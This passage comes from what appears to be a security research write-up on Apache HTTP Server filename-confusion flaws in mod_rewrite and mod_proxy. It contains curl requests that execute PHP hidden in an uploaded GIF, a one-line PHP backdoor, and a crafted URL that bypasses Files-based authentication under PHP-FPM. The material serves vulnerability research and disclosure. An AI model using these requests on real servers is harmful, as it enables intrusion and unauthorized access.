 RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]
If a request ends with the .php extension, it adds the corresponding handler for the mod_php (this can also be an Environment Variable or Content-Type; you can refer to the official RewriteRule Flags manual for details).

Since the truncation behavior of the mod_rewrite occurs after the regular expression match, an attacker can use the original rule to apply flags to requests they shouldn’t apply to by using a ?. For example, an attacker could upload a GIF image embedded with malicious PHP code and execute it as a backdoor through the following crafted request:

$ curl http://server/upload/1.gif
 # GIF89a <?=`id`;>

$ curl http://server/upload/1.gif%3fooo.php
 # GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
⚔️ Primitive 1-2. ACL Bypass
The second primitive of Filename Confusion occurs in the mod_proxy. Unlike the previous primitive which treats targets as a URL in all cases, this time the authentication and access control bypass is caused by the inconsistent semantic of r->filename among the modules!

It actually makes sense for the mod_proxy to treat r->filename as a URL, given that the primary purpose of a Proxy is to “redirect” requests to other URLs. However, security issues when different components interact — especially the case when most modules by default treat the r->filename as a filesystem path, imagine you use a file-based access control, and now mod_proxy treats r->filename as a URL; this inconsistency can lead to the access control or authentication bypass!

A classic example is when sysadmins use the Files directive to restrict a single file, like admin.php:

<Files "admin.php">
    AuthType Basic 
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
This type of configuration can be bypassed directly under the default PHP-FPM installation! It’s also worth mentioning that this is one of the most common ways to configure authentication in Apache HTTP Server! Suppose you visit a URL like this:

http://server/admin.php%3Fooo.php

First, in the HTTP lifecycle at this URL, the authentication module will compare the requested filename with the protected files. At this point, the r->filename field is admin.php?ooo.php, which obviously does not match admin.php, so the module will assume that the current request does not require authentication. However, the PHP-FPM configuration is set to forward requests ending in .php to the mod_proxy using the SetHandler directive:

Path: /etc/apache2/mods-enabled/php8.2-fpm.conf

# Using (?:pattern) instead of (pattern) is a small optimization that
# avoid capturing the matching pattern (as $1) which isn't used here
<FilesMatch ".+\.ph(?:ar|p|tml)$">
    SetHandler "proxy:unix:/run/php/php8.2-fpm.sock|fcgi://localhost"
</FilesMatch>
The mod_proxy will rewrite r->filename to the following URL and call the sub-module mod_proxy_fcgi to handle the subsequent FastCGI protocol:
